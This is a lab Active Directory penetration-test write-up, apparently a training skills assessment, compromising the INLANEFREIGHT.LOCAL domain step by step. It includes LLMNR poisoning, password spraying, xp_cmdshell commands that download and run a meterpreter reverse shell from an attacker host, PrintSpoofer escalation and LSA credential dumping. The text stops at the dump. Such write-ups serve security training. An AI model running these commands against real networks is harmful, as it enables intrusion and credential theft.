# Active-Directory-Writeups

# Active Directory Penetration Test — Skills Assessment
## Internal Network Compromise: INLANEFREIGHT.LOCAL

**Engagement Type:** Internal Active Directory Penetration Test (Skills Assessment Lab)
**Target Domain:** INLANEFREIGHT.LOCAL
**Access Method:** VPN pivot via jump host (htb-student) into internal subnet

---

## 1. Executive Summary

This engagement simulated an internal attacker with foothold-level network access to the INLANEFREIGHT.LOCAL Active Directory environment. Starting from an unauthenticated position on the internal segment, the assessment progressed through credential capture via LLMNR/NBT-NS poisoning, password spraying, SMB share abuse, MSSQL command execution, local privilege escalation, credential dumping, and ACL-based Active Directory privilege escalation — ultimately achieving full **Domain Admin** compromise and extraction of the **krbtgt** account hash (enabling persistence via Golden Ticket forgery).

The attack chain demonstrates a textbook internal AD compromise: a single misconfigured web.config file containing a plaintext service account password, combined with excessive SQL service account privileges and an over-permissive Access Control Entry (ACE) on the Domain Admins group, allowed full domain takeover without exploiting a single CVE. This is consistent with real-world engagements, where misconfiguration and credential hygiene — not software vulnerabilities — are the primary drivers of domain compromise.

**Key findings:**

| # | Finding | Impact |
|---|---|---|
| 1 | LLMNR/NBT-NS poisoning possible on broadcast segment | Credential capture (NTLMv2) |
| 2 | Plaintext credentials stored in IIS `web.config` on an SMB share | Credential exposure (MSSQL service account) |
| 3 | MSSQL service account had `xp_cmdshell` enabled with SeImpersonatePrivilege | Remote Code Execution as service account |
| 4 | Unpatched impersonation privilege allowed Potato-style token abuse | Local Privilege Escalation to SYSTEM |
| 5 | Standard domain user granted `GenericAll` on `Domain Admins` group | Direct path to Domain Admin via ACL abuse |
| 6 | No DCSync/replication monitoring in place | Golden Ticket persistence undetected |

---

## 2. Scope

- **In-scope hosts:** `172.16.7.0/23` internal segment
- **Jump box:** `htb-student` (external pivot, `10.129.33.75`) accessed via SSH with dynamic SOCKS proxying (`ssh -D 9050`)
- **Objective:** Obtain Domain Administrator access and demonstrate full compromise of the domain, including extraction of material sufficient for long-term persistence (krbtgt hash)
- **Hosts identified in scope:**

| Hostname | IP | Role |
|---|---|---|
| DC01 | 172.16.7.3 | Domain Controller |
| MS01 | 172.16.7.50 | Member Server / Workstation |
| SQL01 | 172.16.7.60 | MSSQL Database Server |

---

## 3. Methodology Overview



Each phase is detailed below, with the reasoning behind tool and technique selection, not just the commands used.

---

## 4. Phase 1 — Initial Access & Network Enumeration

### 4.1 Pivoting into the Internal Network

Access to the internal `172.16.7.0/23` segment was only possible through the external jump host. A dynamic SOCKS proxy was established so all subsequent tooling (`nmap`, `crackmapexec`, `impacket`, `evil-winrm`) could route through the pivot transparently:

```bash
ssh -D 9050 username@ip_box
```

All later commands against internal hosts were wrapped with `proxychains` to tunnel traffic through this SOCKS proxy — a standard requirement when the assessor's attack box has no direct route to the target segment.

### 4.2 Initial Port Scan of the Jump Host

```bash
nmap -sS -sV 10.129.33.75 -Pn -n --disable-arp-ping
```

`-Pn` skips host discovery (ICMP is frequently filtered on hardened hosts) and `-n` avoids unnecessary reverse-DNS lookups that can slow scans or trigger logging on internal DNS servers.



This confirmed SSH (22) and RDP (3389) were open — the SSH service became the pivot point.



### 4.3 Host Discovery on the Internal Segment

Once pivoted, live hosts on the target VLAN were identified with:

```bash
fping -asgq 172.16.7.0/23
```

`fping` in quiet/alive mode is preferred over a full `nmap` ping sweep here because ICMP echo sweeps are fast and low-noise for an internal /23. Three hosts responded, and a quick `crackmapexec smb` sweep fingerprinted them via SMB banner/NetBIOS info without authentication:



| Hostname | IP | Role |
|---|---|---|
| DC01 | 172.16.7.3 | Domain Controller (INLANEFREIGHT.LOCAL) |
| MS01 | 172.16.7.50 | Member server/workstation |
| SQL01 | 172.16.7.60 | MSSQL server |

### 4.4 Targeted Service Enumeration

A focused scan against the AD-relevant ports (RPC, NetBIOS, SMB, RDP, WinRM) was run per host:

```bash
sudo nmap -sS -p 135,139,445,3389,5985 --open 172.16.7.3 -Pn -n --disable-arp-ping
```



Results showed **DC01** and **MS01** exposing both SMB (445) and WinRM (5985) — both valid remote-management surfaces once credentials are obtained — while **SQL01** exposed SMB only (no WinRM), signalling that the primary way onto that host would be via its database service rather than remote shell protocols.

---

## 5. Phase 2 — Null Session & Credential-less Enumeration

An attempt was made to enumerate domain information without credentials (null session SMB/RPC binding, anonymous LDAP bind):

```bash
crackmapexec smb 172.16.7.3 --users
rpcclient -U "" -N 172.16.7.3
ldapsearch -H ldap://172.16.7.3 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(objectclass=user)"
```



All attempts returned access-denied errors, confirming the domain had null session enumeration disabled — a reasonably hardened baseline that pushed the attack path toward network-layer credential capture instead.

---

## 6. Phase 3 — LLMNR/NBT-NS Poisoning

### 6.1 Why This Works

Windows falls back to **LLMNR** (Link-Local Multicast Name Resolution) and **NBT-NS** broadcast name resolution whenever standard DNS resolution fails for a hostname. Because these protocols trust *any* host on the local broadcast domain to answer, an attacker positioned on the same segment can respond to these broadcast queries and impersonate the requested resource, prompting the victim machine to authenticate to the attacker using **NTLMv2**.

### 6.2 Execution

A poisoner (Responder-class tool) was run against the segment, listening for broadcast resolution requests. A workstation attempted to resolve a non-existent/mistyped share name, triggering an NTLMv2 authentication attempt that was captured:



The captured material is an NTLMv2 **challenge/response**, not a crackable NTLM hash directly usable for pass-the-hash — it must be offline-cracked against a wordlist.

### 6.3 Offline Cracking

```bash
hashcat -m 5600 poison.txt /usr/share/wordlists/rockyou.txt
```

Mode `5600` is hashcat's NTLMv2 mode. The hash cracked quickly against `rockyou.txt`, indicating a weak, dictionary-guessable password policy for standard domain users.

**Recovered credentials:** `AB920 : weasal`

### 6.4 Validating the Foothold

```bash
proxychains evil-winrm -i 172.16.7.50 -u AB920 -p 'weasal'
```


WinRM authentication succeeded, confirming AB920 had interactive remote-management rights on MS01, and the first flag was retrieved from the user's desktop — confirming initial foothold on the domain as a standard, low-privileged user.

---

## 7. Phase 4 — Domain User Enumeration & Password Spraying

### 7.1 Kerberoasting Attempt (Dead End)

As a standard check for low-hanging SPN-based privilege escalation, Kerberoastable accounts were enumerated:

```bash
GetUserSPNs.py -dc-ip 172.16.7.3 INLANEFREIGHT.LOCAL/AB920
```


Result: **no entries found** — no service accounts had SPNs registered, closing off this common attack path.

### 7.2 Domain User Harvesting

With one valid credential, authenticated SMB/SAMR enumeration became possible:

```bash
crackmapexec smb 172.16.7.3 -u AB920 -p weasal --users | grep -oP '[A-Z]+\\K[^ ]+' > users.txt
```





This produced a clean username list for the domain, a prerequisite for any password-spraying attempt.

### 7.3 Password Spraying

Rather than brute-forcing a single account (which risks account lockout), a **low-and-slow horizontal spray** — one common password against every known user — was used to avoid triggering Active Directory account lockout policies:

```bash
kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 users.txt Welcome1
```

`kerbrute` performs the spray over Kerberos pre-authentication rather than SMB, which is both faster and generates less obvious Windows Event Log noise (4625 failures) than repeated NTLM logon attempts.



**Recovered credentials:** `BR086 : Welcome1`

This result also confirms the organisation reused a common seasonal/default password (`Welcome1`) across at least one account — a frequent real-world finding and a strong indicator of weak password policy enforcement.

---

## 8. Phase 5 — SMB Share Enumeration & Sensitive Data Discovery

### 8.1 Enumerating Accessible Shares

```bash
# psexec/wmiexec first attempted, failed (shares not writable)
impacket-psexec inlanefreight.local/BR086:'Welcome1'@172.16.7.3
impacket-wmiexec inlanefreight.local/BR086:'Welcome1'@172.16.7.3
```



```bash
crackmapexec smb 172.16.7.3 -u BR086 -p 'Welcome1' -d INLANEFREIGHT.LOCAL --shares
```



In addition to the default administrative shares, a custom **`Department Shares`** share was readable — a common pattern in enterprise environments where business-unit file shares are provisioned with broader read access than IT realises.

### 8.2 Manual Share Traversal



A `web.config` file — the configuration file for an ASP.NET/IIS web application — was located inside a development share. Configuration files of this type routinely contain **database connection strings**, which frequently embed credentials in plaintext because developers treat the file as internal-only and forget it is reachable from general file shares.

### 8.3 Credential Extraction



```xml
<add name="ConString" connectionString="...Initial Catalog=Northwind;User ID=netdb;Password=D@ta_bAse_adm1n!" />
```

**Recovered credentials:** `netdb : D@ta_bAse_adm1n!` (MSSQL database account)

This is a textbook example of **credentials-in-configuration-files** exposure, and underscores why file share permission reviews and secrets-scanning of shared drives are a standard recommendation in any AD assessment.

---

## 9. Phase 6 — MSSQL Exploitation (SQL01)

### 9.1 Authenticating to the Database

```bash
proxychains impacket-mssqlclient netdb@172.16.7.60
```

### 9.2 Enabling Command Execution

MSSQL exposes `xp_cmdshell`, an extended stored procedure that executes OS-level shell commands under the context of the SQL Server service account, when enabled:

```sql
EXEC xp_cmdshell 'whoami';
-- nt service\mssql$sqlexpress
```



The account was running in the context of a **virtual service account** (`NT SERVICE\MSSQL$SQLEXPRESS`) with a restricted token — direct access to the `Administrator` profile directory was denied, but `whoami /priv` revealed:



```
SeImpersonatePrivilege   Impersonate a client after authentication   Enabled
```

### 9.3 Why `SeImpersonatePrivilege` Matters

`SeImpersonatePrivilege` allows a process to impersonate the security context of another authenticated user/token on the same host. This privilege, when combined with any mechanism to coerce a privileged (SYSTEM-level) process into connecting back to the attacker's listener — commonly via a spoofed named pipe — is the foundation of the entire **"Potato" family of local privilege escalation exploits** (RoguePotato, PrintSpoofer, GodPotato, etc.). Its presence on a service account is treated as an automatic **local privilege escalation to SYSTEM** in any professional engagement.

### 9.4 Delivering a Payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.7.240 LPORT=8888 -f exe -o shell.exe
python3 -m http.server 8889
```

```sql
EXEC xp_cmdshell 'powershell -ExecutionPolicy Bypass -Command "(New-Object Net.WebClient).DownloadFile(''http://172.16.7.240:8889/shell.exe'',''C:\Users\Public\shell.exe'')"';
EXEC xp_cmdshell 'C:\Users\Public\shell.exe';
```



with a corresponding `exploit/multi/handler` listener catching the callback.

---

## 10. Phase 7 — Local Privilege Escalation (SQL01 → SYSTEM)

### 10.1 Attempted `getsystem`

Metasploit's built-in `getsystem` was run first and succeeded via **Named Pipe Impersonation (PrintSpoofer variant)**:



### 10.2 Manual Validation with PrintSpoofer

To confirm the finding was reproducible outside of a Metasploit-specific technique (important for an accurate report — a finding should not rely on a single tool's black-box behaviour), the same privilege escalation was repeated manually:

```bash
# staged from the attacker pivot host
python3 -m http.server 9000

# on SQL01, via xp_cmdshell
certutil -urlcache -split -f "http://172.16.7.240:9000/PrintSpoofer64.exe" c:\windows\temp\PrintSpoofer64.exe
c:\windows\temp\PrintSpoofer64.exe -c "net user administrator Welcome1"
```



**PrintSpoofer** abuses the Print Spooler service's named-pipe behaviour: it creates a pipe, coerces the SYSTEM-owned spooler service to connect to it, and then uses `SeImpersonatePrivilege` to impersonate the resulting SYSTEM token — executing an arbitrary command (here, a local Administrator password reset) with full SYSTEM rights.

### 10.3 Confirming Administrative Access

```bash
smbclient -U "administrator" \\\\172.16.7.60\\C$
impacket-psexec administrator:'Welcome1'@172.16.7.60
impacket-wmiexec administrator:'Welcome1'@172.16.7.60
```







With the local Administrator password now known, access was validated and the host flag retrieved via three different SMB-based execution techniques, demonstrated to show command-execution-over-SMB fluency.

---

## 11. Phase 8 — Local Credential Dumping (SQL01)

With local Administrator rights secured, credential material was harvested to identify reusable domain credentials — a key pivot technique, since local admin on one box rarely matters unless it yields credentials usable elsewhere.

**a) CrackMapExec LSA dump:**

```bash
crackmapexec smb 172.16.7.60 -u administrator -p Welcome1 --lsa --local-auth
```

